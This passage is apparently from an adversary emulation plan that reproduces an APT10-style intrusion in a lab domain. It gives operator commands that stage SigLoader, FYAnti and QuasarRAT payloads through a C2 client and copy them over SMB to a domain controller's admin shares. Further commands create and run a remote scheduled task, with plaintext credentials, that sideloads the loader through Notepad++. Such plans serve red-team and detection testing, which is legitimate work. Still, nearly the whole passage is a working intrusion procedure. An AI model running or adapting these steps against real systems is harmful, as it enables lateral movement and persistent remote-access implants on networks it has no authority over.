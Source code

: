   * SigLoader layer 2

    ```
    ./evalsC2client.py --set-task F5B06FACBDB06686ABA3E958BE433EF5 '{"type": 2, "transfer_src": "C:\\menu_pass\\Resources\\payloads\\quasar\\DC_layer2.dll", "transfer_dst": "C:\\Users\\kizumi\\AppData\\Local\\Temp\\nhi.dll"}'
    ```

  * FYAnti

    ```
    ./evalsC2client.py --set-task F5B06FACBDB06686ABA3E958BE433EF5 '{"type": 2, "transfer_src": "C:\\menu_pass\\Resources\\payloads\\quasar\\DC_fyanti.dll", "transfer_dst": "C:\\Users\\kizumi\\AppData\\Local\\Temp\\mshtmled.wpf.cfg"}'
    ```

  * QuasarRAT

    ```
    ./evalsC2client.py --set-task F5B06FACBDB06686ABA3E958BE433EF5 '{"type": 2, "transfer_src": "C:\\menu_pass\\Resources\\payloads\\quasar\\Client.exe.enc", "transfer_dst": "C:\\Users\\kizumi\\AppData\\Local\\Temp\\ngen.old3.log"}'
    ```

* Return to the elevated Command Prompt on the IIS server `gabumon (10.10.10.9)`
and move the downloaded components to the Subsidiary A Domain Controller via
SMB.

  ```
  move C:\Users\kizumi\AppData\Local\Temp\VERSION.dll "\\10.10.10.4\C$\Program Files\Notepad++\"
  move C:\Users\kizumi\AppData\Local\Temp\nhi.dll \\10.10.10.4\admin$\System32
  move C:\Users\kizumi\AppData\Local\Temp\mshtmled.wpf.cfg \\10.10.10.4\admin$\Microsoft.NET
  move C:\Users\kizumi\AppData\Local\Temp\ngen.old3.log \\10.10.10.4\admin$\Microsoft.NET\Framework64\v4.0.30319\
  ```

* Using the elevated Command Prompt on the IIS server `gabumon (10.10.10.9)`,
remotely create a scheduled task on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)` to execute a legitimate executable that sideloads
SigLoader.

  ```
  schtasks /create /s 10.10.10.4 /u DIGIRUNAWAY\kizumi.da /p ydJEeqNzN4Xqkd9h@ /tn "Notepad++ Script" /tr "\"C:\Program Files\Notepad++\notepad++.exe\"" /ru DIGIRUNAWAY\kizumi.da /rp ydJEeqNzN4Xqkd9h@ /rl HIGHEST /sc MINUTE /mo 15 /f
  ```

* Using the elevated Command Prompt on the IIS server `gabumon (10.10.10.9)`,
remotely run the scheduled task created on the Subsidiary A Domain Controller
`parrotmon (10.10.10.4)`.

  ```
  schtasks /run /s 10.10.10.4 /u DIGIRUNAWAY\kizumi.da /p ydJEeqNzN4Xqkd9h@ /tn "Notepad++ Script"
  ```

* Confirm C2 registration of a second QuasarRAT implant.

### :mag: Reference Code & Reporting
